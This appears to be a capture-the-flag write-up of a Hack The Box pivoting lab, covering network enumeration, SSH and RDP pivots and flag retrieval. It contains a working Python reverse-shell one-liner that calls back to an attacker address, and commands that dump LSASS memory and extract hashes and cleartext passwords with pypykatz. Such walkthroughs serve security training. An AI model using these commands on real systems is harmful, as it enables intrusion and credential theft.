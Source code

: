 # Assessment

## Enumeration

<figure><img src="../../.gitbook/assets/image (23).png" alt=""><figcaption><p>webadmin</p></figcaption></figure>

Seems to be a Linux host running on this system and there are 2 interfaces as below.

<figure><img src="../../.gitbook/assets/image (31) (1).png" alt=""><figcaption><p>another network segment that we could use to pivot.</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption><p>mlefay:Plain Human work!</p></figcaption></figure>

I decided to get a reverse shell for more control over the foothold sytem.

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",7890));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

<figure><img src="../../.gitbook/assets/image (69).png" alt=""><figcaption><p>but it wasn't nessesary</p></figcaption></figure>

I moved the id\_rsa file and ssh to the system with that file. Now I'm in the system with the same credentials but with ssh.

Next I will try to dynamic port forward with ssh.

Then perform nmap scan to find the host that are up.

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption><p>172.16.5.35</p></figcaption></figure>

## Scan Host2

**Scan result**

```
Nmap scan report for 172.16.5.35
Host is up (0.20s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 204.43 seconds
```

now we know that RDP is open on this system we can try to use the credentials against the this host.

<figure><img src="../../.gitbook/assets/image (53).png" alt=""><figcaption><p>pivot-srv01/mlefay</p></figcaption></figure>

We got access to the pivot-srv01/mlefay and as a local Admin.&#x20;

```
PS C:\Windows\system32> Get-WmiObject -Class Win32_UserAccount -Filter "LocalAccount='True' AND Disabled='False'"

AccountType : 512
Caption     : PIVOT-SRV01\Administrator
Domain      : PIVOT-SRV01
SID         : S-1-5-21-1602415334-2376822715-119304339-500
FullName    :
Name        : Administrator

AccountType : 512
Caption     : PIVOT-SRV01\apendragon
Domain      : PIVOT-SRV01
SID         : S-1-5-21-1602415334-2376822715-119304339-1002
FullName    : apendragon
Name        : apendragon

AccountType : 512
Caption     : PIVOT-SRV01\mlefay
Domain      : PIVOT-SRV01
SID         : S-1-5-21-1602415334-2376822715-119304339-1003
FullName    : mlefay
Name        : mlefay
```

**2nd Interface 172.16.6.35**

```
PS C:\Windows\system32> ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::7dab:2573:1024:6c4a%4
   IPv4 Address. . . . . . . . . . . : 172.16.5.35
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 172.16.5.1

Ethernet adapter Ethernet1 2:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::e041:c210:35fe:c55a%5
   IPv4 Address. . . . . . . . . . . : 172.16.6.35
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . :
```

To find the users credentials through the lsass filem, we dump the lsass process and scp to the webadmin host using the following command.

```powershell
Get-Process lsass
# get the process lsass was running

rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
# dump the lsass

scp -i .\id_rsa C:\lsass.dmp webadmin@172.16.5.15:~/
# transfer the lsass to webadmin
```

Properties -> Security -> Advanced -> Disable inheritance -> Add -> Select a principal -> Enter the object name to select (add windows username) -> (check full control) -> OK -> Apply -> OK

All the above settings is just to set the permission of the id\_rsa file `chmod 0400 id_rsa` 😒

<figure><img src="../../.gitbook/assets/image (50).png" alt=""><figcaption><p>make sure the orders are correct because Windows is trash.</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (42).png" alt=""><figcaption><p>Transfer file from pivot host to </p></figcaption></figure>

using `pypykatz lsa minidump lsass.dmp` we found the user `vfrank:Imply wet Unmasked!`

```
== LogonSession ==
authentication_id 160373 (27275)
session_id 0
username vfrank
domainname INLANEFREIGHT
logon_server ACADEMY-PIVOT-D
logon_time 2023-07-02T11:06:10.741078+00:00
sid S-1-5-21-3858284412-1730064152-742000644-1103
luid 160373
        == MSV ==
                Username: vfrank
                Domain: INLANEFREIGHT
                LM: NA
                NT: 2e16a00be74fa0bf862b4256d0347e83
                SHA1: b055c7614a5520ea0fc1184ac02c88096e447e0b
                DPAPI: 97ead6d940822b2c57b18885ffcc5fb4
        == WDIGEST [27275]==
                username vfrank
                domainname INLANEFREIGHT
                password None
                password (hex)
        == Kerberos ==
                Username: vfrank
                Domain: INLANEFREIGHT.LOCAL
                Password: Imply wet Unmasked!
                password (hex)49006d0070006c0079002000770065007400200055006e006d00610073006b006500640021000000
        == WDIGEST [27275]==
                username vfrank
                domainname INLANEFREIGHT
                password None
                password (hex)
        == DPAPI [27275]==
                luid 160373
                key_guid 560f4286-76f2-4f0f-90a9-5135bbc0104f
                masterkey 4fc3adb204f30f6a226f637b66be93811cee121eaed0e4ec2e8bc023d2d38d396e0c4e827aa49c6b1c2a58f6428ca725be027497ad10f8dd386d5926e7bf73b7
                sha1_masterkey a3e3a61d9a74541a56c3a822d5470bedbb2d4fb5
```

I then performed a **ping sweep** on the 172.16.6.X to find another host to pivot to using cmd.

```
for /L %i in (1,1,255) do @ping -n 1 -w 200 172.16.6.%i > nul && echo 172.16.6.%i is up
```

and we found the following address

<figure><img src="../../.gitbook/assets/image (75).png" alt=""><figcaption><p>172.16.6.25</p></figcaption></figure>

Since 172.16.6.35 is our address we can ignore that and focus on 172.16.6.25

Now that we know the ipaddress of the target and we have the credentials, next is to try remote desktop connection (we know from the question of hack the box that the target is running windows. becase the flag is located in C:\Flag.txt)

<figure><img src="../../.gitbook/assets/image (65).png" alt=""><figcaption><p>And just like that we are in and got the flag.</p></figcaption></figure>

next we found another interface on this machine and seems like we have to perform double pivots. However I'm not sure about the credentials on the Domain Controller.

It was not the case here. I found the flag in the C directory where the DC admin files system was already mounted lol

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>
